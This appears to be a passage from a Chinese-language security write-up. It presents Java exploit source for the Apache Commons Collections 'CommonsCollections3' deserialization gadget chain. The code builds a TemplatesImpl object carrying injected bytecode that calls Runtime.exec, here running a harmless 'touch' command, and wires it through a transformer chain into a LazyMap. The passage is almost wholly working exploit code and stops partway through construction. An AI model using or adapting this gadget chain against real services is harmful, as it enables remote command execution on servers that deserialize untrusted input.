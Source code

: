 exp 如下
```java
package demo.rmb122;

import javassist.ClassClassPath;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InstantiateTransformer;
import javax.xml.transform.Templates;

import java.io.FileOutputStream;
import java.io.ObjectOutputStream;
import java.io.Serializable;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.Map;

public class CommonsCollections3 {
    public static class Placeholder implements Serializable {
    }

    public static void main(String[] args) throws Exception {
        String AbstractTranslet = "com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet";
        String TemplatesImpl = "com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl";
        String TrAXFilter = "com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter";

        ClassPool classPool = ClassPool.getDefault();
        classPool.insertClassPath(new ClassClassPath(CommonsCollections3.Placeholder.class));
        classPool.insertClassPath(new ClassClassPath(Class.forName(AbstractTranslet)));

        CtClass placeholder = classPool.get(CommonsCollections3.Placeholder.class.getName());
        placeholder.setSuperclass(classPool.get(Class.forName(AbstractTranslet).getName()));
        placeholder.makeClassInitializer().insertAfter("java.lang.Runtime.getRuntime().exec(\"touch /dev/shm/rmb122_test1\");");
        placeholder.setName("demo.rmb122." + System.currentTimeMillis());

        byte[] bytecode = placeholder.toBytecode();

        Object templates = Class.forName(TemplatesImpl).getConstructor(new Class[]{}).newInstance();
        Field fieldByteCodes = templates.getClass().getDeclaredField("_bytecodes");
        fieldByteCodes.setAccessible(true);
        fieldByteCodes.set(templates, new byte[][]{bytecode});

        Field fieldName = templates.getClass().getDeclaredField("_name");
        fieldName.setAccessible(true);
        fieldName.set(templates, "rmb122");

        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Class.forName(TrAXFilter)),
                new InstantiateTransformer(new Class[]{Templates.class}, new Object[]{templates}),
        };

        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);

        Constructor constructor = Class.forName("org.apache.commons.collections.map.LazyMap").getDeclaredConstructor(Map.class, Transformer.class);
```